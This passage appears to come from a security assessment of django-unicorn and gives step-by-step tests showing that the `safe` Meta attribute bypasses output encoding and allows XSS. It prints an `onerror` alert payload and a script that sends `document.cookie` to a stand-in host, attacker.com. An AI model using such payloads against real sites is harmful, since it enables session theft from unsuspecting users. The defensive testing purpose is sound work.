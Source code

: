             g. Observe the browser's behavior. If the alert box does *not* appear, it indicates that default output encoding is working as expected in this context. If the alert box *does* appear, default encoding is bypassed.
        3. **Test case 2: Bypassing encoding with `safe` attribute:**
            a. Modify the component from Test case 1 to include a `Meta` class and `safe = ("message",)` attribute.
            b. Keep rendering `{{ message }}` in the component's template as before.
            c. Access the deployed application in a web browser as an external attacker.
            d. Locate the input field associated with the django-unicorn component.
            e. Enter the following XSS payload into the input field: `<img src=x onerror=alert('XSS Vulnerability - Safe Attribute')>`.
            f. Trigger an update to the component.
            g. Observe the browser's behavior. If an alert box with the message "XSS Vulnerability - Safe Attribute" *does* appear, this confirms that the `safe` attribute bypasses the default output encoding, and XSS is possible if used with user-provided data.
        4. **Further Validation (for both test cases):**
            a. Try a more impactful payload that attempts to steal cookies and send them to an attacker-controlled server: `<script>window.location='http://attacker.com/cookie_steal?cookie='+document.cookie;</script>` (replace `http://attacker.com` with a server you control for testing).
            b. Check your attacker server logs to see if the cookie was successfully exfiltrated.

This vulnerability assessment is updated to include the security implications of the `safe` Meta attribute, emphasizing the potential for XSS if misused. The security test case is expanded to specifically test both default encoding behavior and the bypass provided by the `safe` attribute.
